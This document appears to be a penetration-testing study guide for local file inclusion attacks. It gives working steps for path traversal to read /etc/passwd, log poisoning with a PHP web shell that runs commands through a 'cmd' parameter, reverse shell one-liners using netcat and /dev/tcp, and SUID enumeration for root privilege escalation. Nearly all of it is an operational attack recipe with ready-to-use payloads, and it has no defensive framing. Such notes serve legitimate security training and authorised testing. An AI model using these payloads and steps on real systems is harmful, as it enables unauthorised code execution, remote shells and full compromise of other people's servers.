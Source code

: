 

# File Inclusion Attacks

## Locate

1. Examine the URLs of pages on the website.  Look for pages with parameters in the URL, which will be preceded with a `?` or an `&`.  
   Example: http://www.site.com/index.php?param1=page.php&param2=somevalue
2. Some parameters only pass text while others specify pages to include.  The most likely candidates for a path traversal vulnerability will be parameters that are loading a file with an extension.  
3. Test likely parameters by loading known files like `/etc/passwd`.  Remember to prepend this path with `../` to override the current working directory.  It's usually safest to just spam the path with `../` because you can't have too many prepended.
   Example: http://www.site.com/index.php?param1=../../../../../../../etc/passwd

### Web Scanning

Web scanners simply take a wordlist and append it to the end of the specified URL, trying to load the URL and checking the response.   You should always scan web servers to see if there are any unlinked, hidden folders or files.

Wordlists may contain filenames (ex: `file.txt`) and folders.  Understand that the scanner takes whatever is in the wordlist and appends it to the URL to scan. 

By default, dirb scans recursively, which means every folder it finds initiates another full scan of the folder.  A basic scan of one folder (without recursion) can be started with this:

```bash
# Uses /usr/share/dirb/wordlists/common.txt by default
dirb -r http://IP-OR-HOSTNAME/PATH
```

Alternate wordlists can be specified as well:

```bash
# Specify another wordlist
dirb -r http://IP-OR-HOSTNAME/PATH -w PATH_TO_WORDLIST
```

## Inject

There are multiple ways to inject code into a system.  If file uploads are available, you can simply upload a file with the code, but this is rare.  Generally, on-system log files are 'poisoned' with malicious code and those log files are loaded to make the code execute.

1. After discovering a path traversal vulnerability, refer to the enumerated services on the server to discover any log files that may exist.  

2. Use Google to discover the default location of log files.  Most applications include a set of log files such as access and error logs.

3. Use the path traversal to try to load these log files to make sure you can access them.

4. Choose a log file that you can add data to by interacting with the server.  Likely candidates are access logs or auth logs, which will capture the text a client sends to the server.

5. Determine what programming language the web server uses.  Apache general uses PHP while Microsoft IIS uses asp or aspx.  You can also examine the URLs to find extensions that will point you to the language the site uses.

6. Determine what you want to run on the site.  Below is a good block of code to use, which adds a `cmd` parameter to the page that loads it.  You can set this parameter to any command and it will be run.
   *Note: Always surround the code with unique markers to make it easier to find in the logs.*

   ```bash
   [CNM352] <?php echo shell_exec($_GET['cmd']);?> [CNM352]
   ```

7. Find a way to insert this into the log file that preserves the code formatting.  This can be the tricky part and may require some trial and error.  Ways to insert it may include:

   1. Through the URL of the web browser.  This will typically automatically convert it to URL encoding but the log file may or may not convert it back to the original format

   2. Through CURL.  This may have issues with the code because of the special characters.

   3. Through Burp Suite.  This option may be the easiest, as you can just edit the URI in the get request and set it to the code.  Burp will send that exactly as-is to the server and should bypass any URL encoding requirements.

8. Reload the log file and look for the markers.  The code will not appear because the page will render it, but if the markers made it in, the code should be there.

## Execute

1. Reload the poisoned file.  If using the code above, specify in the URL a command to run by assigning it to the cmd parameter:
   http://www.site.com/index.php?param1=../../../../../../../mylog.log&cmd=My Command

2. Of the command contains any of the special characters shown below, you may need to encode the command in URL encoding.  Use the 'Encoding' tab of Burp Suite to do this easily, then paste the encoded text after the `cmd=` to run it.
   ![image-20220426000425862](.9.File-Inclusion.assets/image-20220426000425862.png)

3. You can insert reverse shell commands using this cmd parameter as well:

   ```bash
   # If netcat is present
   nc -nv 10.250.226.250 8000 -e /bin/sh
   
   # If netcat is not present
   bash &>/dev/tcp/10.10.14.37/8000 <&1
   ```

# SUID Privilege Escalation

SUID allows a user to run a file as the owner of the file.  For files owned by root, this could present an opportunity for privilege escalation.

1. After gaining shell access, enumerate the system for SUID binaries.  This can be done with an enumeration script to get ideas of which ones are good candidates or it can be done manually with the command: 

   ```bash
   find / -perm -u=s -type f 2>/dev/null
   ```

2. Search this site for SUID binaries to see if any provide a privilege escalation path:
   [https://gtfobins.github.io](https://gtfobins.github.io/)

<u>NOTES ON GTFO</u>

- Most of the examples on GTFO create a copy of the binary in the local folder and execute it from the same folder, however, in most cases you will be working with the file in the original location.  So if they preface the binary with `./`, you should omit that so that Linux will run it from the original location (since that file allegedly already has SUID set).
- Be sure to try other commands besides what is listed in the SUID section.  Sometimes you can run the commands listed in the sudo section even if you don't use sudo.
- If GTFO identifies a binary as able to escalate privileges with SUID but the commands fail, do some Googling to find other examples of PrivEsc with your SUID binary.

